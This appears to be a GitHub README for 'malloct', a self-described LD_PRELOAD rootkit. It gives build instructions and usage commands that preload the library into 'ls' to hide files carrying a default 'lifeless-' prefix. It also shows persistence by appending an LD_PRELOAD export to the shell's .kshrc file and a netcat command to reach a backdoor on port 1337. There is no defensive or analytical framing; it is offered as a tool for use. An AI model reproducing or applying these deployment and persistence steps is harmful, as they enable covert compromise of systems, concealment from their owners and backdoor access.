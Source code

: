 # malloct
LD_PRELOAD rootkit

# make
$ make

# usage
**make your own configuration in src/config.h**

**is a core LD_PRELOAD rootkit**

**default prefix is lifeless-**

$ LD_PRELOAD=./libmalloct.so ls -aphl /home/$USER/

$ LD_PRELOAD=./libmalloct.so ls -hl /tmp/*

$ export LD_PRELOAD=/tmp/libmalloct.so

$ echo "export LD_PRELOAD=/tmp/libmalloct.so" >> /home/$USER/.kshrc

> set to which shell you are using

> you can set to the program you will use 

# nc
**you can set custom port in src/config.h**

nc -vn 127.0.0.1 1337

# example
![image](https://github.com/user-attachments/assets/67132173-bd65-4e18-a991-8664cd155849)
